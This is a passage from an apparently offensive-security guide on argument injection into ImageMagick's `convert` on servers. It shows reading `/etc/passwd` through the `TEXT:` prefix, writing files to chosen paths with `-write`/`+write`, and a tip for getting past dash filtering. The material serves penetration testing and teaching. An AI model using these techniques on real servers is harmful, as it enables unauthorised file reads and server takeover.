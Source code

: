 ## Argument Injection

When a server runs `convert` on your input, you may have control over some of its parameters. It might keep the filename as you had input it, or allow you to specify modifiers like `crop` or `resize`. These can all lead to injecting more malicious arguments to leak data or even take over the server.&#x20;

### OCR File Read using `TEXT:`

If you have control over the start of the file path and you can include `/` slashes in your input path, the `TEXT:` **prefix** can read the target file and show its contents in the output as text on white:

```shell-session
$ convert TEXT:/etc/passwd output.png
```

![](../../.gitbook/assets/output.png) = `output.png`

{% hint style="info" %}
**Note**: This path can also be _relative_, so it may be used with `../` or simply another filename to read its contents as text
{% endhint %}

### Writing image files using `-write`

The special [`-write [filename]`](https://imagemagick.org/script/command-line-options.php#write) argument to `convert` will write the image with its options up until the argument to a path. For this, you need to be able to inject a single option and value.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ convert example.png -write /tmp/test output.png
</strong><strong>$ file /tmp/test
</strong>/tmp/test: PNG image data, 1 x 1, 8-bit colormap, non-interlaced
</code></pre>

{% hint style="success" %}
If this specific string is blocked, or if the `-` dash is not allowed, `+write [filename]` will essentially do the same thing and can work as an alternative!
{% endhint %}

One **big caveat** is that the file **must be a valid image**. Otherwise, ImageMagick will refuse to write the output.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ convert /etc/passwd -write /tmp/test output.png
</strong>convert: no decode delegate for this image format `' @ error/constitute.c/ReadImage/738.
convert: no images defined `output.png' @ error/convert.c/ConvertImageCommand/3325.
<strong>$ file /tmp/test
</strong>/tmp/test: cannot open `/tmp/test' (No such file or directory)
</code></pre>

